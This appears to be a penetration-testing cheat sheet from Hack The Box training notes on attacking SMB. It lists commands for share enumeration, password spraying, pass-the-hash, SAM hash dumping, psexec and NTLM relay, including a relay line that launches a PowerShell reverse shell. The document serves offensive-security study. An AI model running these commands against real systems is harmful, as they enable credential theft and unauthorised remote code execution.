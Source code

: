 # SMB

**Refs**

- [Section](https://academy.hackthebox.com/module/116/section/1167)
- [Latest Vulnerabilities](https://academy.hackthebox.com/module/116/section/1168)
- [SMBGhost](https://arista.my.site.com/AristaCommunity/s/article/SMBGhost-Wormable-Vulnerability-Analysis-CVE-2020-0796)
- [CVE-2020-0796](https://msrc.microsoft.com/update-guide/vulnerability/CVE-2020-0796)
- [Complete cheatsheet](finals\SMB-Access-from-Linux.pdf)

## Attacking SMB

| **Command** | **Description** |
| ---- | ---- |
| **smbclient** |  |
| `smbclient -N -L //<FQDN/IP>` | Null-session testing against the SMB service. |
| `smbclient -U <user>%<password> \\<FQDN/IP>` | Access with password |
| **smbmap** |  |
| `smbmap -H <FQDN/IP>` | Network share enumeration using `smbmap`. |
| `smbmap -H <FQDN/IP> -r notes` | Recursive network share enumeration using `smbmap`. |
| `smbmap -H <FQDN/IP> --download "notes\note.txt"` | Download a specific file from the shared folder. |
| `smbmap -H <FQDN/IP> --upload test.txt "notes\test.txt"` | Upload a specific file to the shared folder. |
| **enumeration** |  |
| `rpcclient -U'%' 10.10.110.17` | Null-session with the `rpcclient`. |
| `./enum4linux-ng.py 10.10.11.45 -A -C` | Automated enumeratition of the SMB service using `enum4linux-ng`. |
| **RCE** |  |
| `crackmapexec smb 10.10.110.17 -u /tmp/userlist.txt -p 'Company01!'` | Password spraying against different users from a list. |
| `crackmapexec smb 10.10.110.17 -u /tmp/userlist.txt -p 'Company01!' --local-auth` | Password spraying against different local users from a list. |
| `impacket-psexec administrator:'Password123!'@10.10.110.17` | Connect to the SMB service using the `impacket-psexec`. |
| `crackmapexec smb 10.10.110.17 -u Administrator -p 'Password123!' -x 'whoami' --exec-method smbexec` | Execute a command over the SMB service using `smbexec`. |
| `crackmapexec smb 10.10.110.0/24 -u administrator -p 'Password123!' --loggedon-users` | Enumerating Logged-on users. |
| `crackmapexec smb 10.10.110.17 -u administrator -p 'Password123!' --sam` | Extract hashes from the SAM database. |
| `crackmapexec smb 10.10.110.17 -u Administrator -H 2B576ACBE6BCFDA7294D6BD18041B8FE` | Use the Pass-The-Hash technique to authenticate on the target host. |
| `impacket-ntlmrelayx --no-http-server -smb2support -t 10.10.110.146` | Dump the SAM database using `impacket-ntlmrelayx`. |
| `impacket-ntlmrelayx --no-http-server -smb2support -t 192.168.220.146 -c 'powershell -e <base64 reverse shell>` | Execute a PowerShell based reverse shell using `impacket-ntlmrelayx`. |
| `sudo mount -t cifs -o username=plaintext,password=Password123,domain=. //192.168.220.129/Finance /mnt/Finance` | To mount a drive with no domain |

### To mount in windows

***Ref***: <https://vk9-sec.com/smb-server-with-impaket-smbserver/>
```ps1
$username = 'plaintext'
$password = 'Password123'
$secpassword = ConvertTo-SecureString $password -AsPlainText -Force
$cred = New-Object System.Management.Automation.PSCredential $username, $secpassword
New-PSDrive -Name "N" -Root "\\192.168.220.129\Finance" -PSProvider "FileSystem" -Credential $cred
```
